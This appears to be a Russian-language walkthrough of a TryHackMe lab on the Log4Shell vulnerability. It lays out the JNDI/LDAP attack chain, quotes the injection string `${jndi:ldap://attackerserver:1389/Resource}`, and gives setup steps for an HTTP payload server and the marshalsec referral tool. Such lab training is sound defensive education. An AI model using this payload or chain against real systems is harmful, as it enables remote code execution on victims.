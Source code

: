 Мы будем использовать общедоступную утилиту с открытым исходным кодом для подготовки " LDAP Referral Server ". Это 
будет использоваться для перенаправления первоначального запроса жертвы в другое место, где вы можете разместить 
вторичную полезную нагрузку, которая в конечном итоге запустит код на цели. Это выглядит следующим образом:

`${jndi:ldap://attackerserver:1389/Resource}->` обращается к нашему серверу ссылок LDAP
Сервер ссылок LDAP направляет запрос на вторичный сервер http://attackerserver/resource
Жертва извлекает и выполняет код, присутствующий в http://attackerserver/resource
Это значит, что нам понадобится HTTP- сервер, который мы можем просто разместить с помощью любого из следующих 
вариантов (обслуживающий порт 8000): 

- `python3 -m http.server`
- `php -S 0.0.0.0:8000`
- (или любой другой busybox httpd официальный веб-сервис, который вам может понравиться)
Если вы застряли на каком-либо из следующих шагов, у нас есть видео, демонстрирующее (с использованием AttackBox) 
каждый шаг для получения удаленного выполнения кода:  https://youtu.be/OJRqyCHheRE 

### Ответьте на вопросы ниже
Прочитайте и поймите цепочку атак, представленную выше.
```commandline
Ответ не нужен
```
Однако первым делом нужно получить сервер ссылок LDAP. Мы воспользуемся утилитой,  marshalsec предлагаемой на  
https://github.com/mbechler/marshalsec 

В конечном счете, это должно запустить Java. Просмотрев README для этой утилиты, мы видим, что предлагается 
использовать Java 8. (Вы можете добиться успеха, используя другую версию, но, чтобы «играть по правилам», мы будем 
использовать ту же версию Java, которая используется на целевой виртуальной машине)  

Если вы используете TryHackMe AttackBox, вам НЕ нужно выполнять следующие шаги — переходите к следующему вопросу.

См. шаги по локальной установке Java 8 (выполняйте только если не используете AttackBox)
```commandline
Ответ не нужен
```
Далее нам нужно будет получить утилиту marshalsec, о которой упоминалось ранее.  Если вы находитесь на AttackBox, 
перейдите к `/root/Rooms/solar/marshalsec`

Перейдите в папку marshalsec
`attackbox@tryhackme$ cd /root/Rooms/solar/marshalsec`
См. шаги по локальной загрузке marshalsec (выполняйте только если не используете AttackBox)
```commandline
Ответ не нужен
```
Мы должны собрать marshalsec с помощью Java builder maven.  Если в вашей системе еще нет maven, вы можете установить 
его  через менеджер пакетов (не обязательно, если вы используете AttackBox): sudo apt install maven 
